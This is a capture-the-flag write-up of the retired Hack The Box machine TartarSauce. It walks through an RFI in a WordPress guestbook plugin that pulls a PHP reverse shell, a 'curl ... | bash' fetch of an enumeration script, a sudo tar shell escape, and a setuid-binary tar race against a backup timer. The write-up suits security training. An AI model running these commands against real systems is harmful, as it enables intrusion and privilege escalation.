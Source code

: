 # TartarSauce

This is the write-up for the box TartarSauce that got retired at the 20th October 2018.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.88    tartarsauce.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tartarsauce.nmap 10.10.10.88
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page
```

## Checking HTTP (Port 80)

On the web page is ASCII art of a TartarSauce bottle and nothing interesting in the HTML source code.
The initial Nmap scan found _robots.txt_ with 5 different directories:
- /webservices/tar/tar/source/
  - HTTP error code _404 Not Found_
- /webservices/monstra-3.0.4/
  - Blog page powered by **Monstra 3.0.4**, which is an open-source CMS
  - Login page on _/webservices/monstra-3.0.4/admin/_
- /webservices/easy-file-uploader/
  - HTTP error code _404 Not Found_
- /webservices/developmental/
  - HTTP error code _404 Not Found_
- /webservices/phpmyadmin/
  - HTTP error code _404 Not Found_

Only the **Monstra** directory responses back and when trying out some default credentials at the login page, the credentials _admin:admin_ work.
After analyzing the platform for a while, it seems like that it is not possible to modify any files nor upload anything to gain command execution.

Lets search for more hidden paths in _/webservices_ with **Gobuster**:
```markdown
gobuster -u http://10.10.10.88/webservices dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds one more directory called _/wp_ where it hosts a **WordPress** page, but it looks broken.
In the HTML source code, there is a mistake about the absolute URLs with wrong syntax:
```html
(...)
<link rel="alternate" type="application/rss+xml" title="Test blog &raquo; Feed" href="http:/10.10.10.88/webservices/wp/index.php/feed/" />
<link rel="alternate" type="application/rss+xml" title="Test blog &raquo; Comments Feed" href="http:/10.10.10.88/webservices/wp/index.php/comments/feed/" />
(...)
```

They are all missing a slash (/) character in _"http:/"_. To load the page correctly, it is possible to configure a local proxy like **Burpsuite** to replace this string with the correct syntax:

![Burpsuite match and replace](https://kyuu-ji.github.io/htb-write-up/tartarsauce/tartarsauce_web-1.png)

After refreshing the web page, it loads the scripts and looks better.
The tool **Wpscan** is practical, to scan WordPress pages, plugins, etc. for vulnerabilities:
```markdown
wpscan --url http://10.10.10.88/webservices/wp -e ap
```

It may find the plugin _Gwolle Guestbook <= 2.5.3_ and when searching for vulnerabilities with **Searchsploit**, it finds a **Remote File Inclusion** vulnerability:
```markdown
searchsploit gwolle

# Output
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
```

It works by sending a request to the following path:
```markdown
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Lets test this with our local client:
```markdown
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/test
```

After sending the request, the listener on my IP and port 80 gets a connection from the box and the vulnerability appends _wp-load.php_ at the end of the request:
```markdown
Ncat: Connection from 10.10.10.88:42002.
GET /testwp-load.php HTTP/1.0
Host: 10.10.14.12
Connection: close
```

This means the RFI works and by sending PHP code, it is possible to get a reverse shell session on the box.
The reverse shell I will be using is _php-reverse-shell.php_ from the **Laudanum** scripts, but it has to be renamed to _wp-load.php_.
```markdown
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/
```

After sending it, _wp-load.php_ gets appended to the request, downloads the PHP reverse shell and the listener on my IP and port 9001 starts a connection on the box as _www-data_.

## Privilege Escalation

To get an attack surface on the box, any **Linux Enumeration Script** should be run:
```markdown
curl 10.10.14.12/LinEnum.sh | bash
```

The sudo privileges of _www-data_ is allowing the execution of `tar` as the user _onuma_ without a password:
```markdown
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Checking on [GTFOBins](https://gtfobins.github.io/) that `tar` can run system commands with `sudo` in the context of another user:
```markdown
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

This starts a bash session as _onuma_.

### Privilege Escalation to root

After executing the **Linux Enumeration Script** again as _onuma_, we find that there are running **Systemd timers**.
One of those is a non-default timer called _backuperer.timer_ that runs every five minutes.

Lets locate what it does:
```markdown
locate backuperer
```

It was found in _/usr/sbin/backuperer_ and is a bash script that does the following every five minutes:
1. Deletes created files in _/var/tmp_
2. `tar` _/var/www/html_ to _/var/tmp/$RANDOM_NAME_ in the background
3. `sleep` for 30 seconds
4. Extract created files and integrity check between _/var/www/html_ and _/var/tmp/check/var/www/html_ with `diff`
5. If integrity check is successful, exit with error exit code (2)
  - Else, delete files and exit with successful exit code (0)

If a directory is not valid, it will fail and delete the files.
If all directories exist, it will exit out of the program and what we have to figure out now, is how to make the integrity check fail to get to that state.
To do that, we need to create an archive that has _/var/www/html_ in it and when its getting extracted, it adds the directories and the `diff` command becomes valid.

```markdown
cd /var/tmp
mkdir -p var/www/html
```

To get command execution we place a file with the _setuid bit_ in there, because `tar` keeps the file permissions even after extracting.
So when it gets extracted, the binary will keep the _setuid bit_ and is executable as root.

I will compile this code that creates a binary with the correct file permission that runs _/bin/sh_:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
}   
```
```markdown
gcc -m32 -o shell exec.c
```

Moving _shell_ into local _var/www/html_ directory and `tar` up the directory:
```markdown
mkdir var/www/html
mv shell var/www/html
chmod 6555 var/www/html/shell
tar -zcvf shell.tar.gz var/
```

Uploading _shell.tar.gz_ to the directory _/var/tmp/var/www/html_ on the box:
```markdown
# On client
nc -lvnp 9002 < shell.tar.gz

# On the box
nc 10.10.14.12 9002 > shell.tar.gz
```

Now waiting until the _backuperer_ job runs. To follow the time, the `watch` command is useful:
```markdown
watch -n 1 'systemctl list-timers'
```

When it runs, it creates a hidden file with a random name in _/var/tmp/_ and we have to rename our _shell.tar.gz_ as the name of that new file:
```markdown
cp shell.tar.gz .7c1f2149bd7924dc3f98e0b04e64bbda5ecf85f0
```

This has to be done before the time hits the 30 seconds mark, because then it creates the folder _check_ in which the binary got extracted into that is now owned by root and has the setuid bit set. This is the binary created by us to execute now:
```markdown
cd /var/tmp/check/var/www/html

./shell
```

After executing _shell_ a shell session as root starts!
